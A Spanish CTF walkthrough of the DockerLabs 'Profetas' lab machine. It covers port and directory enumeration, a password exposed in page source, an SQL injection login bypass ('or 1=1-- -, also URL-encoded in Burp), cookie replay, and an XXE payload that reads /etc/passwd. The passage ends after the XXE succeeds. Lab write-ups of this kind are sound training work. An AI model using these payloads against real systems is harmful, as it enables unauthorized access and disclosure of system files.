## MONTAMOS MÁQUINA VULNERABLE

1-Vamos a la página `https://dockerlabs.es/` y buscamos la máquina ´Profetas´ nivel medio y su autor `mikisbd`

2- descargamos el zip

3-descomprimimos el zip con:

```bash
 unzip profetas.zip
```

4- montamos la máquina vulnerable en docker con los archivos descomprimidos en el zip:

```bash
sudo bash auto_deploy.sh profetas.tar
```




5- una vez montada nos dice que la IP del la máquina vulnerable es `172.17.0.2`


## FASE DE ENUMERACIÓN

Vamos a enumerar a la máquina, comenzamos viendo que puertos tiene abiertos y que servicios corren por ellos, así como sus versiones por si son vulnerables:

```bash
 sudo nmap -sS -sCV --open -p- --min-rate 5000 172.17.0.2 -vvv -oN nmap
```
Encontramos dos puertos abiertos:

-22 por el que corre SSh en versión no vulnerable
-80 http


Dado que no tenemos usuarios ni credenciales para SSH vamos a centrarnos en la página web que corre por el puerto 80.


Antes de ir a la página vamos a ver que tecnologias utiliza la página con:
```bash
whatweb http://172.17.0.2 | tee whatweb
```


Vemos un apache...una cookie, vamos a ver la página.


Vemos una página con un login en el cual vemos la dirección  `http://172.17.0.2/dashboard.php` y si en el password damos botón derecho y revelar contraseña vemos un password `@Pssw0rd!User4dm1n2025!#` para poder copiar
el password, click derecho,reveal password


Ahora para copiarlo, cambiamos `type=password` por `type=text`


No se si servirá de algo pero hay que apuntarlo, la página `http://172.17.0.2/dashboard.php` nos redirecciona a `http://172.17.0.2/index.php`
Y el cóidigo fuente no nos revela ada interesante, con esto, vamos a fuzzear un poco.


```bash
gobuster dir -u "http://172.17.0.2/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt, ,html | tee gobuster
```





Vemos unas cuantas rutas y redirecciones, comenzamos por `view-source:http://172.17.0.2/index.php` al inspeccionar el código fuente vemos:`cmVjdWVyZGEuLi4gdHUgY29udHJhc2XxYSBlcyB0dSB1c3Vhcmlv` que parece 
un base64, lo decodeamos:
```bash
echo "cmVjdWVyZGEuLi4gdHUgY29udHJhc2XxYSBlcyB0dSB1c3Vhcmlv" | base64 -d; echo
```
y vemos algo interesante







Con todo esto nos vamos a `http://172.17.0.2/admin.php`





vemos `la repetición tiene significado` y `notadmin` un posible usuario?

el caso que al intentar hacer login tiene que ser un correo y un usuario...provamos diversos correos con el user notadmin y aquí logré romperlo de dos formas:


# primera forma:


Nos saltamos a la torera que sea un correo (ya que probé ataques con diccionarios y nada):
en `type=email` `borramos email` y ponemos el user `notadmin` y en el password una inyeccion sql `'or 1=1-- -`




con eso tenemos accedo a `http://172.17.0.2/dashboard.php`




# SEGUNDA FORMA


rellenamos los campos con un correo inventado y un password inventado




hacemos una captura con burpsuite



la mandamos al repeater y en usuario ponemos `notadmin` y en password `%27or%201%3D1--%20-` que es `'or 1=1-- -` urlencodeado




Vemos que podemos hacer una redireción y la hacemos:




Y llegamos a una pagina con una cookie nueva:


Guardamos la cookie y nos vamos a la página web, cambiamos la cookie `PHPSESSID` por el nuevo valor y cambiamos en la barra a http://172.17.0.2/dashboard.php al recargar estamos dentro... y no mireis en la url el user y el pass
que os da algo xD









Todo esto ocurre porque la validación de email es por parte del cliente y no del servidor a groso modo.

bueno lo que vemos ahora es que podemos pinchar en `acceso al portal 2` y si miramos el codigo fuente `externalentitiinjection.php` toda una revelacion para un XML External Entity Injection:





Probamos una inyeccion básica para leer un archivo:

```bash
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>
    <contenido>&xxe;</contenido>
</data>
```

y vemos que da resultado:







